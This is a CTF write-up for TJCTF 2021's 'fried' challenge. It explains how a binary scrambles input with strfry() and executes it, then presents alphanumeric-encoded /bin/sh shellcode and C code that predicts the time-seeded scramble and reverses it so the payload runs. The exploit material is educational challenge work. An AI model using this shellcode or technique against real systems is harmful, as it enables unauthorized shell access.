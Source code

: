 # TJCTF 2021 - Writeup: fried

This was a fun challenge, especially because we got first blood on it :-)


 ![Challenge Web](images/challenge-web.png)


The challenge was in the form of a binary named <code>chall</code>

## Inspecting the binary

After importing the binary into Ghidra, the following code is found in the main()-function

 ![main](images/main.png)

In short the code does the following:
1. Allocate 4096 bytes of memory
2. Read 4096 bytes from stdin into that memory
3. Validate that all read bytes are between 0x30 and 0x7e which mainly represents alphanumeric characters
4. Use the function strfry() to scramble the read bytes
5. Execute the now scrambled bytes :-P

My first thought was to see if i could find some win()-function and spray the memory with a couple of bytes that would jump to that function, but alas no such function could be found.

## Looking at <b>strfry()</b>

So I turned to see if the strfry()-function was predictable. (sploier: It was ;-))

 ![main](images/strfry.png)

 In the beginning of the function __initstate_r()-function is called and are using the current time in epoch xor:ed with the current pid. The current time shouldn't be much of a problem. This is a common CTF-scenario and there are usually only at most a few seconds difference between the CTF-server and "my" computer.

 The pid of the current process could have be a problem, but because the CTF-infrastructure is using containers, the pid is actually always 1 :-)

Okey, so we should be able to handle the scrambling-part. Then, what to send in.

## Creating a payload

With the awesome pwntools it's easy to generate some shellcode. 

```bash
 shellcraft amd64.linux.sh -f escaped
```
this generates the following escaped string:
```bash
"\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05"
```

Now this wont work. Only alphanumerics allowed.

I tried using the pwnlib-function: <b>pwnlib.encoders.encoder.alphanumeric(...)</b>, but i couldn't get that to work, so I found another encoder called [AE64](https://github.com/veritas501/ae64)

Using that I could create a working payload with the following code:

```python
from ae64 import AE64
from pwn import *
context.arch='amd64'

shellcode = asm(shellcraft.sh())

enc_shellcode = AE64().encode(shellcode)
print(enc_shellcode.decode())
```

This generates the following:
<pre>
WTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjcTYfi9O60t800T810T850T860T870T8A0t8B0T8D0T8E0T8F0T8G0T8H0T8P0t8T0T8YRAPZ0t8J0T8M0T8N0t8Q0t8U0t8WZjUTYfi9860t800T850T8P0T8QRAPZ0t81ZjhHpzbinzzzsPHAghriTTI4qTTTT1vVj8nHTfVHAf1RjnXZP
</pre>

## Reverse scrambling

Okey, so now to handle the scrambling.
I modified the strfry()-function to following C code to reverse-scramble of the data:

```C
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <unistd.h>

char *
strfry (char *string, int drift)
{
    static int init;
    static struct random_data rdata;
    if (!init)
    {
        static char state[32];
        rdata.state = NULL;
        time_t now = time ((time_t *) NULL);
        // apply the drift seconds
        now += drift;
        
        initstate_r (now ^ 1, state, sizeof (state), &rdata);
        init = 1;
    }

    size_t len = strlen (string);

    int pos[0x1000];

    if (len > 0)
    {
        // Generate scramble swaps and put them in a list
        for (size_t i = 0; i < len - 1; ++i)
        {
            int32_t j;
            random_r (&rdata, &j);
            j = j % (len - i) + i;
            pos[i] = j;
        }
        // Apply changes in the reverse order
        for (size_t i = len-2; i >= 0; --i)
        {
            int j = pos[i];
            char c = string[i];
            string[i] = string[j];
            string[j] = c;
            if (i == 0) break;
        }
    }
    return string;
}

void main(int argc, char **argv) {
    // accept drift seconds as parameter
    int drift = atoi(argv[1]);
    char mem[0x1001];
    for (int i=0;i<0x1000;i++)mem[i] = 'A';
    char *shellcode = "WTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjcTYfi9O60t800T810T850T860T870T8A0t8B0T8D0T8E0T8F0T8G0T8H0T8P0t8T0T8YRAPZ0t8J0T8M0T8N0t8Q0t8U0t8WZjUTYfi9860t800T850T8P0T8QRAPZ0t81ZjhHpzbinzzzsPHAghriTTI4qTTTT1vVj8nHTfVHAf1RjnXZP";
    int shellcode_len = strlen(shellcode);
    for (int i=0;i<shellcode_len;i++)mem[i] = shellcode[i];
    mem[0x1000] = 0;
    strfry(mem, drift);
    puts(mem);
} 
```

This now generates a payload that is reverse scrambled so that it becomes correct when the challenge scrambles it.

![gen](images/gen.png)

## Xploiting

So now we just have to use it.
Had to try a couple of drift seconds, but then! Woop! :-)

![gen](images/xpl.png)

A really nice challenge. Thanks <b>TJCTF</b> and <b>kfb</b>
